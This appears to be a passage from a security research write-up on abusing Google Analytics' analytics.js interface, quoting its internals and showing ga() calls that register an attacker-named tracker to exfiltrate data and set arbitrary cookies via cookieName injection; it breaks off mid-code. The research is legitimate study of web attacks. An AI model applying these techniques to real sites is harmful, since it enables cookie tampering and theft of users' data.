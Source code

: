 ```js
```
While this seems like an easy path to XSS (register ["eval"](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/eval) as a plugin, then call it), we are limited by the [structured clone algorithm](https://developer.mozilla.org/en-US/docs/Web/API/Web_Workers_API/Structured_clone_algorithm) which does not allow functions to be serialized.
Attempting to provide a string such as `"eval"` will not be allowed by GA as it checks the type of the input ensure it is a `function`:
```js
var ea = function(a) {
  return "function" == typeof a
}
// [snip]
a = a[2];
// [snip]
if (this.g && (!qa(b) || "" == b || !ea(a)))
  throw "abort";
```
However, this is still useful as we can load additional plugins from Google as long as they are in a pre-defined allowlist:
```js
Zd = {
  ec: 45,
  ecommerce: 46,
  linkid: 47
};
// [snip]
y = function(a, b, c, d, e) {
  if (!ea(Yd.get(b)) && !$d.get(b)) {
     Zd.hasOwnProperty(b) && J(Zd[b]);
```

## Registering an additional tracker
One of the problems that comes with using or abusing any of the Google Analytics functions is the registered tracker is not attacker controlled. Fortunately, GA allows registering [multiple trackers](https://developers.google.com/analytics/devguides/collection/analyticsjs/creating-trackers) via the `"create"` method, ex:
```js
ga("create", {
	"name": "pwn",
	"trackingId": "UA-44361710-4"
})
ga("pwn.send", "pageview")
```
This will allow any exploits that require to exfiltrating data via Google Analytics.

## Setting cookie values
Leveraging the `create` method, it is possible to set arbitrary cookie values.
This is possible because Google Analytics allows customization in the name of the cookie used (`_ga` by default) via the `cookieName` attribute, ex:
```js
ga("create", {
	"name": "pwn",
	"trackingId": "UA-44361710-4",
	"cookieName": "_custom_ga"
})
```
Internally, this is implemented via string concatenation into a `document.cookie` call, manually prettified below:
```js
zc = function(cookieName, cookieValue, cookiePath, cookieDomain, trackingId, cookieExpire, cookieFlags) {
	// Check if the user is opt'd out, bail early
```